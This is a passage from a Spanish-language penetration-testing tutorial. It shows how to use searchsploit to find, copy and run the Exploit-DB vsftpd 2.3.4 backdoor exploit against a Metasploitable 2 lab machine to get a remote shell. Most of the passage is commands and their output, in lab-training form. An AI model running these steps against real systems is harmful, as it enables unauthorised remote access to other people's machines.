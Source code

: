 ```bash
git clone https://github.com/repo/exploit-example.git
cd exploit-example
python3 exploit.py
```

---

### 🧪 Ejemplo práctico completo

Vamos a usar un **exploit remoto** para atacar un servicio vulnerable (vsftpd 2.3.4 en Metasploitable 2).

---

#### 🎯 Objetivo: Obtener una shell usando un exploit de Exploit-DB

---

#### ✅ Paso 1: Buscar exploit

```bash
searchsploit vsftpd
```

Resultado:

```
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/17491.py
```

---

#### ✅ Paso 2: Copiar el exploit

```bash
searchsploit -m 17491.py
```

---

#### ✅ Paso 3: Ejecutar el exploit

```bash
python3 17491.py 192.168.1.105
```

Si la máquina es vulnerable, se abre una shell remota.

---

#### ✅ Paso 4: Verificar acceso

```bash
whoami
```

---

